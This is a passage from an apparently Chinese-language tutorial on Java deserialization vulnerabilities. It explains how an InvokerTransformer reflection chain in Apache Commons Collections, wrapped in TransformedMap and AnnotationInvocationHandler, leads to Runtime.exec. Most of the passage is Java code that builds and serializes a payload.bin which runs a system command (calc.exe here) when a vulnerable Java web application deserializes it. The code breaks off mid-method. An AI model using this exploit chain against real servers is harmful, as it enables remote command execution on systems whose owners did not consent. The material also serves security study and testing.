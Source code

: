   

  

  

反序列化漏洞 payload

*   反序列化时会执行对象的 readObject() 方法
    
*   Runtime.getRuntime.exec(“xx”) 可以执行系统命令
    
*   InvokerTransformer 的 transform() 方法可以通过反射链调用 Runtime.getRuntime.exec(“xx”) 函数来执行系统命令
    
*   TransformedMap 类的 decorate 方法用来实例化一个 TransformedMap 对象，即 public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) ，第二个和第三个参数传入一个 Transformer，当 key 值和 Value 值改变时，会调用 Transformer 的 transformer() 方法。于是我们可以将第三个参数传入 InvokerTransformer
    

**Payload 构造思路：**我们构造恶意的类：AnnotationInvocationHandler，将该类的成员变量 memberValues 赋值为我们精心构造的 TransformedMap 对象，并将 AnnotationInvocationHandler 类进行序列化，然后交给 JAVA WEB 应用进行反序列化。再进行反序列化时，会执行 readObject() 方法，该方法会对成员变量 TransformedMap 的 Value 值进行修改，该修改触发了 TransformedMap 实例化时传入的参数 InvokerTransformer 的 transform() 方法，InvokerTransformer.transform() 方法通过反射链调用 Runtime.getRuntime.exec(“xx”) 函数来执行系统命令

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fkFTpkFY7gmpvKmZia33W1fyBSJQlTa3OoU3O6b03VzSRSicyMnDWOM7iaib9FicRQ857JGtX6Fal6RrA/640?wx_fmt=jpeg)

如下代码，我们通过构造恶意的类 AnnotationInvocationHandler 并将其序列化保存在 payload.bin 文件中，只要将它给存在反序列化漏洞的 JAVA WEB 应用进行反序列化就能执行我们的命令了。

```
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.util.Map.Entry;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
public class main2 {
        public static void main(String[] args) throws Exception{
                Transformer[] transformers = new Transformer[] {
                                new ConstantTransformer(Runtime.class),
                                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
                Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
                Map innerMap = new HashMap();   //实例化一个Map对象
                innerMap.put("value", "value");
                Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
                Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
                Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
                FileOutputStream f = new FileOutputStream("payload.bin");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
```
